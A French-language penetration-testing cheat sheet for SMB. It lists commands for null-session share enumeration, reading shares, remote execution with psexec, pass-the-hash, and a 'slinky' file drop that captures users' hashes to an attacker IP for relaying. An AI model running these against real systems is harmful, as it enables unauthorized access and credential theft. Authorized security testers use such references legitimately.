 # SMB

### Enumération des utilisateurs locaux

```
msf6 auxiliary(scanner/smb/smb_lookupsid)
```

### Enumération des partages réseau

* Lister les partages réseau d'une machine avec une session nulle (ni utilisateur, ni de mot de passe) :

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -d <DOMAIN.LOCAL> -u '' -p '' -H <IP>

cme smb <IP>/<MASK> -u '' -p '' --shares
```

* Lister les partages réseau d'une machine de manière anonyme (utilisateur anonyme avec un mot de passe vide) :

```
smbmap -u 'anonyme' -p '' -H <IP>
smbmap -d <DOMAIN.LOCAL> -u 'anonyme' -p '' -H <IP>

cme smb <IP>/<MASK> -u 'anonyme' -p '' --shares
```

* Lister les partages réseau d'une machine avec des identifiants :

```
# Avec un mot de passe
smbmap -u "username" -p "password" -H <IP>
cme smb <IP>/<MASK> -u <USER> -p <PASS> --shares

# Avec un hash
smbmap -u "username" -p "<NT>:<LM>" -H <IP>
```

* Lister les partages réseau de machines présentent au sein d'un domaine :

```
smbclient -L //<IP> -U "<DOMAIN.LOCAL>/<USERS%<PASS>"
```

### Lecture d'un partage

```
smbmap -R <REPERTOIRE> -H <IP> -A <file> -q
smbclient \\\\<IP>\\<SHARE> -U "<DOMAIN.LOCAL>/<USER>%<PASS>"
```

`ls` : lister le contenu du répertoire.

`cd` : naviguer dans le répertoire.

`get` : télécharger un fichier localement.

**Note :** _il est également possible d'accéder aux partages via l'explorateur de fichier avec le protocole `smb://`._

L'outil `snaffler` peut être utilisé pour automatiser la lecture des partages réseau. De plus, il remonte des informations potentiellement sensibles :&#x20;

```
Snaffler.exe -s -o Snaffler-result.txt
```

### Exécuter des commandes système

Il est possible d'utiliser l'option `-x` de l'outil `smbmap` pour exécuter des commandes système.

### Connexion distante

* Avec des identifiants :

```
psexec.py <DOMAIN.LOCAL>/<USER>:<PASS>@<IP>
cme smb <IP> -u '<USER>' -p '<PASSWORD>' --local-auth
```

* Avec un _hash_ (Pass The Hash):

```
cme smb -u <USER> -H <HASH> --sam <IP>/<MASK>
```

**Note :** _l'utilisateur doit disposer des droits "Administrateur local"._

### Signatures SMB

```
cme smb <IP>
```

### Droit en écriture

Il est possible d'obtenir un hash avec les droits en écriture :&#x20;

```
# Lancer responder dans le terminal 1

nxc smb <IP> -u <USER> -p <PASS> -M slinky -o <ATTACK-IP> <FAKE-FILE-NAME>
```

La commande va déposer un fichier sur le partage, si un utilisateur va sur le partage, son hash sera obtenu via `responder`. En combinaison avec l'absence de signature, il est possible de faire du relai.
